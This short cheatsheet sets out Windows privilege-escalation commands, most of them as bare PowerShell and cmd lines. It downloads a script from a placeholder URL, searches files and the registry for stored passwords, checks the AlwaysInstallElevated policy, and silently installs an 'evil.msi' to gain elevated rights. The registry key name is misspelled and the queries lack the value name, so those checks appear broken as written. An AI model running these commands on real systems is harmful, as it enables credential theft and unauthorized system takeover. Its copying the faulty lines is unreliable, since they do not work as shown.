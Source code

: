# Windows Privilege Escalation Cheatsheet

#### List powershell module directories

```powershell
echo $Env:PSModulePath
```

#### Download file

```powershell
Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1
```

#### Search for passwords in filesystem

```shell
cmd style: dir /s *pass* == *cred* == *vnc* == *.config*
```

```powershell
powershell style: findstr /si password *.xml *.ini *.txt
```

```powershell
reg query HKLM /f password /t REG_SZ /s
```

```powershell
reg query HKCU /f password /t REG_SZ /s
```

#### MSI register

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
```

If both return 1, then get an evil.msi and:

```powershell
msiexec /quiet /qn /i evil.msi
```

